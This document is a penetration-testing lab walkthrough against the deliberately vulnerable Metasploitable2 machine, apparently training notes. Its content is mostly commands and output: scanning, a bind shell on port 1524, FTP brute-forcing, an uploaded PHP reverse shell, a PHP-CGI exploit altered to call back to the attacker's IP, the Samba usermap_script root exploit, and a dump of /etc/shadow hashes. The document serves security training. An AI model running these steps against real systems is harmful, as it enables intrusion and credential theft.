# 🔬Linux Black Box Pentest

>  🔬 INE LAB - [Metasploitable2](https://docs.rapid7.com/metasploit/metasploitable-2/)
>
>  - Target IP: `10.2.20.205`
>  - **Metasploit Framework** is permitted

## Port Scanning & Enumeration

- Obtain the target `IP` address from the `/etc/hosts` file

```bash
cat /etc/hosts
	10.2.20.205 demo.ine.local
ping 10.2.20.205
ping demo.ine.local
mkdir Desktop/Linux
cd Desktop/Linux/ # To store all the notes and files about the target
```

- **Port scanning** with `nmap`

```bash
nmap -sV -p 1-10000 10.2.20.205 -oX nmap_10k
# Scans first 10000 ports
```

```bash
21/tcp   open  ftp         vsftpd 2.3.4
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
51/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) DAV/2)
111/tcp  open  rpcbind     2 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
512/tcp  open  exec?
513/tcp  open  login?
514/tcp  open  tcpwrapped
1099/tcp open  java-rmi    GNU Classpath grmiregistry
1524/tcp open  ingreslock?
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
6667/tcp open  irc         UnrealIRCd
6697/tcp open  irc         UnrealIRCd
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
8787/tcp open  drb         Ruby DRb RMI (Ruby 1.8; path /usr/lib/ruby/1.8/drb)

Service Info: Hosts:  metasploitable.localdomain, irc.Metasploitable.LAN; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- Check the ports without service banner

```bash
nc -nv 10.2.20.205 512
nc -nv 10.2.20.205 513
# No banners
```

```bash
nc -nv 10.2.20.205 1524

# provides with a shell on the target system!
cat /etc/*release
    DISTRIB_DESCRIPTION="Ubuntu 8.04"
```

📌 There is a BIND SHELL Listener on the port `1524`



- Access the web server with a browser
  - `http://10.2.20.205/`
  - There are intentional vulnerable applications present



## Targeting

### [vsFTPd](../3-metasploit/ftpd-msf-exp.md)

```bash
nmap -sV -sC -p 21 10.2.20.205
```

```bash
21/tcp open  ftp     vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.24.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV IP 172.17.0.2 is not the same as 10.2.20.205

```

- Try `anonymous`:`anonymous` with FTP

```bash
ftp 10.2.20.205

# With anonymous access no files can be accessed
```



- **Exploit vsFTPd**

```bash
searchsploit vsftpd
	vsftpd 2.3.4 - Backdoor Command Execution | unix/remote/49757.py
searchsploit -m 49757
vim 49757.py
chmod +x 49757.py
python3 49757.py 10.2.20.205
# [Errno 111] Connection refused
# Backdoor on port 6200 was removed by the administrator

# Description of the unix/ftp/vsftpd_234_backdoor Metasploit module:
#  This module exploits a malicious backdoor that was added to the 
#  VSFTPD download archive. This backdoor was introduced into the 
#  vsftpd-2.3.4.tar.gz archive between June 30th 2011 and July 1st 2011 
#  according to the most recent information available. This backdoor 
#  was removed on July 3rd 2011.
```

- 📌 Exploits might not work because the vulnerability may have been patched!
- Enumerate user accounts via **`SMTP` brute-force**

```bash
nmap -sV -p 25 10.2.20.205
	25/tcp open  smtp  Postfix smtpd
```

```bash
msfconsole
```

```bash
use auxiliary/scanner/smtp/smtp_enum
setg RHOSTS 10.2.20.205
set UNIXONLY true
run
```

```bash
# Valid user and service accounts
[+] 10.2.20.205:25 - 10.2.20.205:25 Users found: , backup, bin, daemon, distccd, ftp, games, gnats, irc, libuuid, list, lp, mail, man, mysql, news, nobody, postfix, postgres, postmaster, proxy, service, sshd, sync, sys, syslog, user, uucp, www-data
```

```bash
hydra -l service -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt 10.2.20.205 ftp
```

```bash
[21][ftp] host: 10.2.20.205   login: service   password: service
```



> 📌 FTP credentials found:
>
> - `service`:`service`

```bash
ftp 10.2.20.205
# Use service:service
```



```bash
pwd
	Remote directory: /home/service
# User's home directory
cd /
ls
# The "service" user can navigate in the entire file system
exit
```

- **Upload a `PHP` reverse shell** via FTP to the `/dav` directory and launch it with the browser

```bash
ls -al /usr/share/webshells/php/
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
vim shell.php
# Change the $ip variable to the Kali Attacker VM IP - 10.10.24.6
```



```bash
# Open a new tab and setup a listener
nc -nvlp 1234
```

```bash
# Login with FTP again and upload the shell.php
cd /
cd /var/www/
put shell.php
    local: shell.php remote: shell.php
    200 EPRT command successful. Consider using EPSV.
    553 Could not create file.
# The user does not have the necessary permissions
cd /var/www/dav
put shell.php
```

- Open the browser and run the `shell.php` file
  - `http://10.2.20.205/dav/`

```bash
/bin/bash -i
```



### PHP

```bash
nmap -sV -sC -p 80 10.2.20.205
```

```bash
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
|_http-title: Metasploitable2 - Linux
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2
```

- Try to browse
  - `http://10.2.20.205/phpinfo.php`

```bash
PHP Version 5.2.4-2ubuntu5.10
```


#### Manual/Script Exploitation

- Find an exploit

```bash
searchsploit php cgi
	PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection | php/remote/18836.py
searchsploit -m 18836
python2 18836.py 10.2.20.205 80
# It executes
```


- Modify `pwn_code` variable and insert **PHP reverse shell code**

```bash
vim 18836.php
# insert:
pwn_code = """<?php $sock=fsockopen("10.10.24.6",1234);exec("/bin/sh -i <&4 >&4 2>&4");?>"""
# Save and quit
```

```bash
# On another tab
nc -nvlp 1234

# Launch the exploit
python2 18836.py 10.2.20.205 80
```



- Automatic MSF `exploit/multi/http/php_cgi_arg_injection` module can be used too.



### [SAMBA](../1-system-attack/linux-attacks/samba-unix.md)

```bash
nmap -sV -p 445 10.2.20.205
```

```bash
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```

- Banner grabbing

```bash
nc -nv 10.2.20.205 445
# No banner
```

- Enumerate the exact version of Samba

```bash
msfconsole
```

```bash
search smb_version
use auxiliary/scanner/smb/smb_version
setg RHOSTS 10.2.20.205
run
```

```bash
[*] 10.2.20.205:445 - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] 10.2.20.205:445 - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.2.20.205: - Scanned 1 of 1 hosts (100% complete)
```

```bash
searchsploit samba 3.0.20
```

```bash
# In the MSFconsole
search samba 3.0.20
use exploit/multi/samba/usermap_script
info
# Description:
#   This module exploits a command execution vulnerability in Samba 
#   versions 3.0.20 through 3.0.25rc3 when using the non-default 
#   "username map script" configuration option. By specifying a username 
#   containing shell meta characters, attackers can execute arbitrary 
#   commands. No authentication is needed to exploit this vulnerability 
#   since this option is used to map usernames prior to authentication!
run
```



```bash
# CTRL+Z to background
sessions
sessions -u 4
sessions 6
```



- 📌 This exploit gives back direct `root` access.

```bash
# Dump hashes
cat /etc/shadow
```

```bash
root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:14747:0:99999:7:::
daemon:*:14684:0:99999:7:::
bin:*:14684:0:99999:7:::
sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:14742:0:99999:7:::
sync:*:14684:0:99999:7:::
games:*:14684:0:99999:7:::
man:*:14684:0:99999:7:::
lp:*:14684:0:99999:7:::
mail:*:14684:0:99999:7:::
news:*:14684:0:99999:7:::
uucp:*:14684:0:99999:7:::
proxy:*:14684:0:99999:7:::
www-data:*:14684:0:99999:7:::
backup:*:14684:0:99999:7:::
list:*:14684:0:99999:7:::
irc:*:14684:0:99999:7:::
gnats:*:14684:0:99999:7:::
nobody:*:14684:0:99999:7:::
libuuid:!:14684:0:99999:7:::
dhcp:*:14684:0:99999:7:::
syslog:*:14684:0:99999:7:::
klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:14742:0:99999:7:::
sshd:*:14684:0:99999:7:::
msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:14684:0:99999:7:::
bind:*:14685:0:99999:7:::
postfix:*:14685:0:99999:7:::
ftp:*:14685:0:99999:7:::
postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:14685:0:99999:7:::
mysql:!:14685:0:99999:7:::
tomcat55:*:14691:0:99999:7:::
distccd:*:14698:0:99999:7:::
user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:14699:0:99999:7:::
service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:14715:0:99999:7:::
telnetd:*:14715:0:99999:7:::
proftpd:!:14727:0:99999:7:::
statd:*:15474:0:99999:7:::
snmp:*:15480:0:99999:7:::

# MD5 hashes can be cracked easily
```

------

